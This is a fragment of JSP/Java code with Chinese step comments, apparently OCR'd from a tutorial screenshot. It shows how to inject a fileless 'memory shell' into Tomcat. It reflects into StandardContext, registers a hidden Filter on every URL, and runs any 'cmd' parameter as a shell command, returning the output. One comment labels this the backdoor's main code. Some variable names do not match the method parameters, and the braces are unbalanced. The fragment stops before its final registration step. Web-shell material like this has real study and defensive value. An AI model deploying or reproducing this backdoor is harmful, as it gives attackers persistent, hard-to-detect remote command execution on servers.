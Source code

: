 ```jsp
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
	// 2.再获取filterConfigs
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
	// 3.接着实现自定义想要注入的filter对象
    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                
        //这里是后门的主要代码  
        HttpServletRequest req = (HttpServletRequest) request;
        if (req.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osTyp = System.getProperty("os.name");
            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                isLinux = false;
            }
            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner s = new Scanner(in).useDelimiter("\\a");
            String output = s.hasNext() ? s.next() : "";
            response.getWriter().write(output);
            response.getWriter().flush();
        }
            //别忘记带这个，不然的话其他的过滤器可能无法使用
        	chain.doFilter(request, response);
   			 }
         }

            @Override
            public void destroy() {

            }

        };

		//4.然后为自定义对象的filter创建一个FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        
        // 将filterDef添加到filterDefs中
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
      //拦截的路由规则，/* 表示拦截任意路由，这里优先级调到最高
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);
		//5.最后把 ServletContext对象 filter对象 FilterDef全部都设置到filterConfigs即可完成内存马的实现
```